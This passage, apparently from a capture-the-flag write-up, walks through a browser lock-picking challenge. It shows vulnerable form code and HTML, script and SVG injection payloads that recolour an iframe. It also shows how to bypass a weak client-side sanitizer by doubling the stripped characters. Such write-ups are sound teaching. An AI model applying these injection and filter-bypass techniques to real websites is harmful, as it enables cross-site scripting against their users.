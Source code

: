 Since it looks like the second lock is vulnerable to HTML input submission:
```html
<form method="post" action="pin2">
    <! -- TODO: FILTER OUT HTML FROM USER INPUT -->
    <input class="inputTxt" name="inputTxt" type="text" value autocomplete="off">
    <button>GO</button>
</form>
```
We can submit the following payload to make the entire iframe background white, thus allowing the colors to pass easily.
```html
<body style="background-color:white;">
```

Since it looks like the third lock is vulnerable to Javascript input submission:
```html
<form method="post" action="pin3">
    <! -- TODO: FILTER OUT JAVASCRIPT FROM USER INPUT -->
    <input class="inputTxt" name="inputTxt" type="text" value autocomplete="off">
    <button>GO</button>
</form>
```
We can submit the following payload to make the entire iframe background blue, thus allowing the colors to pass easily.
```html
<script>document.body.style.backgroundColor = "#0000FF";</script>
```
This SVG also works as a payload:
```html
<svg version="1.1" width="100%" height="100%">
  <rect fill="#0000FF" width="100%" x="0%" y="5%" height="80%"/>
</svg>
```
And solving three locks allows us through the door.

The fourth lock involves client-side input validation:
```javascript
    const sanitizeInput = () => {
        const input = document.querySelector('.inputTxt');
        const content = input.value;
        input.value = content
            .replace(/"/, '')
            .replace(/'/, '')
            .replace(/</, '')
            .replace(/>/, '');
    }
```
The input validation strips the characters `“`, `‘`, `<`, and `>`.

In our payload, removing the <, >, and “ characters are problematic. 

However, due to the weakness of the filtering, we can simply double-up on invalid characters to bypass this filter.

```html
<<svg version="1.1" width="100%" height="100%">>
  <<rect fill="#0000FF" width="100%" x="0%" y="55%" height="40%"/>>
  <<rect fill="#FFFFFF" width="100%" x="0%" y="5%" height="40%"/>>
<</svg>>
```
